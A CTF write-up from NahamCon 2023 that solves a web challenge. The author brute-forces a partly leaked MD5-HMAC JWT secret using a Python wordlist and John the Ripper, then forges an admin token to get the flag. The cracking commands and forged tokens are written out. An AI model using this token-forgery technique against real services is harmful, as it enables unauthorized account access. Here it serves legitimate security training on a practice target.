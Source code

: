 >Author: @congon4tor#2334  
>  
>Enjoy some of our delicious home made marmalade!
------------------------
We are prompted to choose a username to log in. No password asked. Firstly trying admin, of course we are not allowed. So I go with my old friend `asdf`.


![Pasted image 20230615153302.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230615153302.png)

On login, it tells us that only admin can see the flag:

![Pasted image 20230616173145.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616173145.png)

With how little content is on these pages, there is pretty much nothing else to consider other than editing the given cookie:
`token=eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImFzZGYifQ.SKkdg9_2EbXj67FcZNnXIg`
Based on the cookie having 3 sections separated by dots, I immediately recognize this as a JWT. Using jwt.io to decode:

![Pasted image 20230616173339.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616173339.png)

The blue segment is a signature hashed with a secret key to prevent forgery, but this is not always used to verify. Perhaps we can just edit the Payload section so that our username is admin?
```
{
  "username": "admin"
}
```
Converting back to base64, our new token looks like this
`eyJhbGciOiJNRDVfSE1BQyJ9.ewogICJ1c2VybmFtZSI6ICJhZG1pbiIKfQ.SKkdg9_2EbXj67FcZNnXIg`

When I edit the cookie, it gives me an interesting new error:

![Pasted image 20230616173646.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616173646.png)

```
# Bad Request

Invalid signature, we only accept tokens signed with our MD5_HMAC algorithm using the secret fsrwjcfszeg*****
```

So while they are checking the token signatures, they did a bit of an oopsie and gave away most of their secret key!! Only the last 5 characters are hidden, making this secret key effectively 5 characters in length. This is something that can be brute-forced rather easily.

I used python to quickly generate a wordlist containing the known secret string, then appended all possible 5 letter combinations:
```python
fp = open("wordlist.txt", "w")

for i in range(ord('a'), ord('z') + 1):
    for j in range(ord('a'), ord('z') + 1):
        for k in range(ord('a'), ord('z') + 1):
            for l in range(ord('a'), ord('z') + 1):
                for m in range(ord('a'), ord('z') + 1):
                    fp.write('fsrwjcfszeg' + chr(i) + chr(j) + chr(k) + chr(l) + chr(m) +  "\n");

fp.close()
```

From this point, I can use my previously valid JWT for asdf, and use `John the Ripper` to brute force the secret key. John will accept the token when the signature is presented in hex, however I had trouble converting myself for some reason. This issue was resolved once I used [Sjord's jwtcrack code](https://github.com/Sjord/jwtcrack/blob/master/jwt2john.py) to recreate my token.

```shell
$ python convert.py 'eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImFzZGYifQ.SKkdg9_2EbXj67FcZNnXIg'
eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImFzZGYifQ#48a91d83dff611b5e3ebb15c64d9d722
```

Cracking the secret with john:

```shell
$ john jwt.txt --wordlist=wordlist.txt --format=HMAC-MD5
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-MD5 [password is key, MD5 256/256 AVX2 8x3])
Warning: poor OpenMP scalability for this hash type, consider --fork=2
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
fsrwjcfszegvsyfa (?)     
1g 0:00:00:04 DONE (2023-06-16 13:39) 0.2487g/s 2472Kp/s 2472Kc/s 2472KC/s fsrwjcfszegvsxlg..fsrwjcfszegvtppv
Use the "--show --format=HMAC-MD5" options to display all of the cracked passwords reliably
Session completed. 
```

The secret key is `fsrwjcfszegvsyfa`
Now to generate a valid signature for our forged jwt. Using the first 2 base64 encoded segments, we perform HMAC-MD5 hashing, then convert from hex back to base64:

![Pasted image 20230616174953.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616174953.png)

Finalized token:
```
eyJhbGciOiJNRDVfSE1BQyJ9.ewogICJ1c2VybmFtZSI6ICJhZG1pbiIKfQ.kpCxx3dVioNEfybFE2UBxg
```

Upon refreshing the page, we get the flag.

![Pasted image 20230616141001.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616141001.png)

`flag{a249dff54655158c25ddd3584e295c3b}`
